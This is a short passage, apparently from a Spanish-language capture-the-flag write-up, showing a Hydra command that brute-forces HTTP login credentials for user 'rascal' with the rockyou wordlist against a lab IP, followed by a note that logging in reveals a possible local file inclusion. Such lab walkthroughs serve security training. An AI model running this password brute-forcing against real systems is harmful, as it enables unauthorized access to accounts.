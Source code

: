 ```
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.89.178 http-get -v
```
![Screenshot from 2021-02-02 23-01-38](assets/Screenshot%20from%202021-02-02%2023-01-38.png)


### Enumeración http

Colocando las credenciales nos encontramos con un posible **LFI**.

![Screenshot from 2021-02-02 23-04-47](assets/Screenshot%20from%202021-02-02%2023-04-47.png)
